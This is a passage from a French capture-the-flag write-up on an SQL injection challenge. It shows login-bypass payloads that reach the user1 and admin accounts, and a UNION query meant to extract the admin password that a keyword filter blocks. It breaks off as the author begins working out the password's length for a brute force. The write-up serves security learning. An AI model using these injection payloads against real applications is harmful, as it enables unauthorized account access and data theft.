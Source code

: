 
Je vais tenter une autre requête : 

```sql
' OR username = "user1" --
```

Qui me retourne 

```
Welcome back user1 !

Your informations :

- username : user1
```

Ce qui nous montre que le nom de la colonne username est bien celle-ci et que le user1 existe.
Nous pouvons faire la même chose avec le compte admin 

```sql
' OR username = "admin" --
```

Ce qui me retourne : 

```
Welcome back admin !

Your informations :

- username : admin

  
Hi master ! **To validate the challenge use this password**
```

Nous avons le username, le but maintenant est de trouver le password de ce compte.
Nous savons déjà le nom de la colonne password grâce a l'erreur générée plus haut.

Je vais essayer de faire un UNION afin de récupérer le password : 

```sql
' OR 1 UNION (select password from user where username = 'admin') --
```

Ce qui me retourne : 

```
### Injection detected !
```

'UNION' doit faire partie d'une wordlist de banword.
Il n'est donc plus envisageable d'utiliser un UNION dans nos requête.

## Trouver le nombre de caractère du password
Pour la suite du challenge, il va falloir trouver le mot de passe admin, pour ça il va falloir générer une hypothèse qui nous permettra de retrouver le password le plus rapidement possible

Pour éviter un trop grand nombre de requête dans le bruteforce, je vais déjà commencer par déterminer le nombre de caractère du password.

